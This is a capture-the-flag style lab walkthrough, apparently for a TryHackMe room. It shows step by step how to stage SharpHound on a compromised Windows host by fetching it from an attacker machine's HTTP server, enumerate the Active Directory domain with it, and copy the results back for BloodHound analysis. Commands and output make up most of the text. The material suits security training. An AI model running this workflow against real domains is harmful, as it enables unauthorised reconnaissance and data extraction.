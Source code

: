 # Through Bloodhound

Bloodhound runs locally on an attacker's machine. The attacker must run a "collector" like sharphound on the target 
to enumerate domain information. After the collector finishes running, it will output a series of .json files for 
import into the Bloodhound interface.

On the attack machine:

    mkdir sharphound 
    cd sharphound 
    wget https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip
    --2022-10-12 14:20:23--  https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip
    ...
    HTTP request sent, awaiting response... 200 OK
    Length: 2138953 (2.0M) [application/octet-stream]
    Saving to: ‘SharpHound-v1.1.0.zip’
    
    SharpHound-v1.1.0.z 100%[===================>]   2.04M  1.91MB/s    in 1.1s    
    
    2022-10-12 14:20:35 (1.91 MB/s) - ‘SharpHound-v1.1.0.zip’ saved [2138953/2138953]
        
Start a server to serve it:

    python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

Now `ssh` into target machine using the credentials given:

    ssh kenneth.davies@za.tryhackme.com@thmjmp1.za.tryhackme.com

In the target machine terminal, switch to powershell:

    za\kenneth.davies@THMJMP1 C:\Users\kenneth.davies\Documents>powershell
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.
 
Choose a directory to work from (I used `Documents`, and download the 
`SharpHound-v1.1.0.zip` from the http server on the attack machine:

    PS C:\Users\kenneth.davies\Documents> Invoke-WebRequest http://10.50.16.168/SharpHound-v1.1.0.zip -OutFile SharpHound-v1.1.0.zip
    PS C:\Users\kenneth.davies\Documents> dir
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/12/2022   2:48 PM        2138953 SharpHound-v1.1.0.zip

Extract:

    PS C:\Users\kenneth.davies\Documents> Expand-Archive SharpHound-v1.1.0.zip      
    PS C:\Users\kenneth.davies\Documents> dir
    Directory: C:\Users\kenneth.davies\Documents
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----       10/12/2022   2:49 PM                SharpHound-v1.1.0
    -a----       10/12/2022   2:48 PM        2138953 SharpHound-v1.1.0.zip

Enumerate:

    PS C:\Users\kenneth.davies\Documents> cd SharpHound-v1.1.0
 
    PS C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0> .\SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs  2022-10-12T14:49:52.7476245+01:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
    2022-10-12T14:49:53.2159956+01:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
    ...
    2121 name to SID mappings.
     0 machine sid mappings.
     2 sid to domain mappings.
     0 global catalog mappings.
    2022-10-12T14:50:42.7872718+01:00|INFORMATION|SharpHound Enumeration Completed at 2:50 PM on 10/12/2022! Happy Graphing!

Check results:

    PS C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0> dir
    Directory: C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/12/2022   2:50 PM         139831 20221012145038_BloodHound.zip
    ...

On the attack machine, use `ssh` to copy the bloodhound results over:

    scp kenneth.davies@za.tryhackme.com@thmjmp1.za.tryhackme.com:C:/Users/kenneth.davies/Documents/SharpHound-v1.1.0/20221012145038_BloodHound.zip .

Fire up `neo4j` and `bloodhound`:

    sudo neo4j start                     
    bloodhound &

Drop the copied over results in the bloodhound window, and play around with options.

| ![Bloodhound](../../_static/images/bloodhound.png)
|:--:|
|  Start playing around and answer the questions. |

* Use `Search for a node...` to find specific users, groups, etc.
* Click on specific properties of an object to visualise it
* Use the Analysis tab to run built-in queries
* ...

